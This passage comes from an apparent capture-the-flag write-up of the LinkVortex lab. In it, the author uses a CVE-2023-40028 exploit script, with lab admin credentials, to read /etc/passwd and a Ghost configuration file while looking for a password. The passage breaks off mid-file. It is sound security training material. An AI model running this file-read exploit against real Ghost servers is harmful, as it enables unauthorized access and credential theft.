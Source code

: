 I tried reading the `/etc/passwd` file

```zsh
❯ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
file> 
```

We can read the configuration files to get more information, pay attention to the configuration file we see in `Dockerfile.ghost`

### <span style="color: #3498eb;">Get the password</span>

In the previous section when reading the information that `GitHack` downloaded, we noted `/var/lib/ghost/config.production.json`
Let's try reading this configuration file.

```zsh
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
```